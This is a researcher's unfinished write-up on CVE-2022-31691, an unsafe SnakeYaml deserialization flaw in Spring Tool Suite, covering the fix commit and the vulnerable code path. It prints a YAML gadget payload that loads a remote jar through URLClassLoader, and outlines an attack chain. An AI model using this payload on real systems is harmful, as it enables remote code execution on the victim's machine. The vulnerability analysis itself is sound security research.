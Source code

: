 # CVE-2022-31691
A write-up of my (so far inconclusive) look into CVE-2022-31691.

# Background
I'm a frequent user of the Spring Tool Suite (STS) for Eclipse, and tend to rely on it to initialise new Spring Boot projects. This vulnerability (see https://tanzu.vmware.com/security/cve-2022-31691) is an RCE which can be induced through unsafe loading of content from a yaml configuration file. 

SnakeYaml is a very common yaml parser and emitter for Java. However, as with any marshalling/unmarshalling process, there's always the risk that unwanted content could be loaded straight into memory. SnakeYaml is no different - see https://code.google.com/archive/p/snakeyaml/wikis/Documentation.wiki#Tutorial. 

```
Loading YAML
Warning: It is not safe to call Yaml.load() with any data received from an untrusted source!
The method Yaml.load() converts a YAML document to a Java object.
```

With that in mind, the project maintainers added a SafeConstructor method:

```
Note if you want to limit objects to standard Java objects like List or Long you need to use SafeConstructor.
Yaml yaml = new Yaml(new SafeConstructor());
```

The rationale is pretty clear, but this advice clearly isn't being well-heeded. You don't need to look far to see examples of unsafe loading practices. Even Baeldung (a wonderful source of information on Spring) fails to mention this in its guide: https://www.baeldung.com/java-snake-yaml#basic-usage.

In order to exploit this, I need to get this constructor to unmarshall an object that I have control over. Foruntately, others have already done the leg work here. https://github.com/artsploit/yaml-payload is a really simple project to generate SnakeYaml exploit payloads a la https://github.com/mbechler/marshalsec. The rationale is:
- use the artsploit library to generate a gadget exploit jar
- host that exploit jar on a local webserver
- build a malicious yaml file that will trigger the load of that jar into memory
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```
- work out which yaml files are being loaded by STS in an unsafe manner
- create an eclipse project that incudes this malicious yaml file, and make sure it follows the above attack chain up to achieve code execution.

# The STS changes
## Find the commit
This vulnerability was fixed in STS version 4.16.1. A quick look over the commits in this version offer up a couple of helpful pointers as to what was fixed - https://github.com/spring-projects/sts4/compare/4.16.0.RELEASE...4.16.1.RELEASE

The message on [this commit](https://github.com/spring-projects/sts4/commit/2d841f78fc4c7ebfcc191e93e8f27ce06835ea32) - "Use SafeConstructor in Snakeyaml YAML constructors" is a nice pointer to what's been fixed.

Sure enough, [this](https://github.com/spring-projects/sts4/commit/2d841f78fc4c7ebfcc191e93e8f27ce06835ea32#diff-2c281a6aa79de90814f45a2ee015ab10a3d4995a2e0c942a156f0db89050d6e3L389) is where the SafeConstructor is substituted.

```
YamlASTProvider parser = new YamlASTProvider(new Yaml(new SafeConstructor()));
```

If I'm interested in exploiting this, I need to get some malicious content into this SnakeYaml constructor, so I need to track down where it's called from.

## Find where the input comes from
The SnakeYaml object creation is fed an ```InputStream``` object that's created by a method ```getInputStream()```.

```getInputStream()``` calls ```getManifestFile()``` to determine which manifest file to load.

```getManifestFile()``` returns either the location of a manifest file (if specified in the constructor), or null.

The ```ApplicationManifestHandler``` class is initialised in the CloudFoundryBootDashModel class [here](https://github.com/spring-projects/sts4/blob/4.16.0.RELEASE/eclipse-extensions/org.springframework.ide.eclipse.boot.dash.cf/src/org/springframework/ide/eclipse/boot/dash/cf/model/CloudFoundryBootDashModel.java#L631) and is passed a value that's derived from a value set in the constructor for the resolveDeploymentProperties method [here](https://github.com/spring-projects/sts4/blob/4.16.0.RELEASE/eclipse-extensions/org.springframework.ide.eclipse.boot.dash.cf/src/org/springframework/ide/eclipse/boot/dash/cf/model/CloudFoundryBootDashModel.java#L541).


# Where I am so far - blocked!
I'm pretty sure I need to get some CloudFoundry configuration in place in order to get it to try to load/invoke my malicious manifest.yml file. 

It turns out that CloudFoundry is a dying technology, thanks to (I assume) Kubernetes and the like. I can't find any sort of public platforms to create a CF connection to, so I can't actually test things out from here.

# Next
Look into spinning up a local development instance of CloudFoundry, if only to test out my understanding of the vulnerability and exploit.
